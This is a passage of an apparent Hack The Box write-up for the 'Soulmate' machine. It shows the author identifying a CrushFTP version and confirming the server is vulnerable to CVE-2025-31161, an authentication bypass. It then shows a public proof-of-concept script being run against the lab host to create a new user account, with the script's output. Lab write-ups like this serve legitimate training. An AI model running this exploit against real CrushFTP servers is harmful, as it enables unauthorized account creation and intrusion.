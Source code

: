 We can detect the version by looking at the source code, and search for strings like `?v=` or `?version=` or `?build=`.
after some search, we find this, `?v=11.W.657-2025_03_08_07_52`, so the version is `11.W.657`.

I searched for `crushftp 11.W.657 exploits` and find this page: [https://www.huntress.com/blog/crushftp-cve-2025-31161-auth-bypass-and-post-exploitation](https://www.huntress.com/blog/crushftp-cve-2025-31161-auth-bypass-and-post-exploitation).
I checked the poc in this website, and it worked, so it's vulnerable to this CVE. 

![poc hunterss](image-3.png)

I found more advanced PoC, in this github repo [https://github.com/Immersive-Labs-Sec/CVE-2025-31161](https://github.com/Immersive-Labs-Sec/CVE-2025-31161).

Let's use this to create a new user:
```bash
┌──(agonen㉿kali)-[~/htb/Soulmate/CVE-2025-31161]
└─$ python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --new_user elicopter770 --password elicopter770
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: elicopter770
   [*] Password: elicopter770.                                     
```
